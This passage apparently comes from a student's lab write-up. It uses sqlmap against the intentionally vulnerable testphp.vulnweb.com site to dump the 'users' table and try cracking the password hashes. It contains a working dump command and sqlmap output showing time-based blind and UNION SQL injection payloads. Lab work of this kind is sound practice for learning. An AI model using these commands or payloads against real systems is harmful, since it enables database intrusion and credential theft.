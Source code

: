    ```shell
   [*] ending @ 05:16:58 /2023-04-20/
   ```

   In the users table, there are uname and pass fields that most likely contain the account name and password to log in to the system

5. Retrieve data from table

   ```shell
   sqlmap -u "http://testphp.vulnweb.com/search.php?test=query" -D acuart -T users --dump
   ```

   `-dump`: Dump database table entries

   ```shell
   ┌──(kali㉿B20DCAT037-Dat-Kali)-[/]
   └─$ sqlmap -u "http://testphp.vulnweb.com/search.php?test=query" -D acuart -T users --dump
           ___
          __H__
    ___ ___["]_____ ___ ___  {1.7.2#stable}
   |_ -| . [,]     | .'| . |
   |___|_  [']_|_|_|__,|  _|
         |_|V...       |_|   https://sqlmap.org

   [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

   [*] starting @ 05:34:30 /2023-04-20/

   [05:34:30] [INFO] resuming back-end DBMS 'mysql'
   [05:34:30] [INFO] testing connection to the target URL
   sqlmap resumed the following injection point(s) from stored session:
   ---
   Parameter: test (GET)
       Type: time-based blind
       Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
       Payload: test=query' AND (SELECT 8297 FROM (SELECT(SLEEP(5)))EfaF) AND 'ekJi'='ekJi

       Type: UNION query
       Title: Generic UNION query (NULL) - 3 columns
       Payload: test=query' UNION ALL SELECT NULL,CONCAT(0x7170627671,0x644b7762646447676e584f55746d49474a424d47796457714777664474694d624163684657445368,0x71626a7671),NULL-- -
   ---
   [05:34:31] [INFO] the back-end DBMS is MySQL
   web server operating system: Linux Ubuntu
   web application technology: Nginx 1.19.0, PHP 5.6.40
   back-end DBMS: MySQL >= 5.0.12
   [05:34:31] [INFO] fetching columns for table 'users' in database 'acuart'
   [05:34:31] [INFO] fetching entries for table 'users' in database 'acuart'
   [05:34:31] [INFO] recognized possible password hashes in column 'cart'
   do you want to store hashes to a temporary file for eventual further processing with other tools [y/N]
   do you want to crack them via a dictionary-based attack? [Y/n/q]
   [05:34:32] [INFO] using hash method 'md5_generic_passwd'
   what dictionary do you want to use?
   [1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
   [2] custom dictionary file
   [3] file with list of dictionary files
   >
   [05:34:33] [INFO] using default dictionary
   do you want to use common password suffixes? (slow!) [y/N]
   [05:34:33] [INFO] starting dictionary-based cracking (md5_generic_passwd)
   [05:34:33] [INFO] starting 8 processes
   [05:34:38] [WARNING] no clear password(s) found
   Database: acuart
   ```